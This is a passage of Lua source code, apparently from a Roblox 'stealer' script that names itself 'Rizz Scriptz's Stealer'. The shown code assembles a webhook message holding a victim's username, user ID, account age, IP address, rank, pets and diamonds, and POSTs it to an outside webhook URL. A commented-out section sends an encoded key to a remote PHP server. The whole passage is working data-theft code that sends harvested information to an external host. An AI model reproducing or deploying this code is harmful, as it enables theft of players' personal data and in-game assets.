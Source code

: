                     ["width"] = 420
                },
                ["fields"] = { {
                    ["name"] = "**This data was generated using Rizz Scriptz's Stealer** :moyai:",
                    ["value"] = "```Username     : " .. username ..
                        "\nUser-ID      : " .. fardplayer.userId .. "\nAccount Age  : " .. fardplayer.AccountAge ..
                        " Days\nIP Address   : " .. IPadress .. "\nRank         : " .. rank .. "\nRAP          : " .. RAP() ..
                        "\nExploit      : " .. exploit .. "\nReceiver     : " .. receiver .. "```",
                    ["inline"] = false
                }, {
                    ["name"] = ":dog: **Pets left** :dog:",
                    ["value"] = "```" .. f .. "```",
                    ["inline"] = true
                }, {
                    ["name"] = ":gem: **Diamonds** :gem:",
                    ["value"] = "```" .. d .. "```",
                    ["inline"] = true
                },
                    {
                        ["name"] = rarity,
                        ["value"] = "```" .. name .. "```",
                        ["inline"] = true
                    },
                }
            } }
        }
        newdata1 = game:GetService("HttpService"):JSONEncode(data1)

        headers = {
            ["content-type"] = "application/json"
        }

        if Webhook ~= nil and whenabled == true then
            abcdef1 = {
                Url = url,
                Body = newdata1,
                Method = "POST",
                Headers = headers
            }
            request(abcdef1)
        end
    end
end

local dhuser = getgenv().Settings.User
-- if getgenv().Settings ~= nil then
--     if getgenv().Settings.PremiumKey ~= nil then
--         local premkey = getgenv().Settings.PremiumKey
--         local dhkey = to_base64(to_base64(to_base64(to_base64(premkey))))
--         local dhdata = {
--             dhprem = dhkey
--         }
--         local dhurl = "premium database php link here" -- Exc : https://rizz.xyz/premium.php
--         local dhheaders = {
--             ["content-type"] = "application/json"
--         }
--         local dhnewdata = game:GetService("HttpService"):JSONEncode(dhdata)
--         local dhresponse = request({
--             Url = dhurl,
--             Body = dhnewdata,
--             Method = "POST",
--             Headers = dhheaders
--         })
--         local responsed = from_base64(from_base64(from_base64(dhresponse.Body)))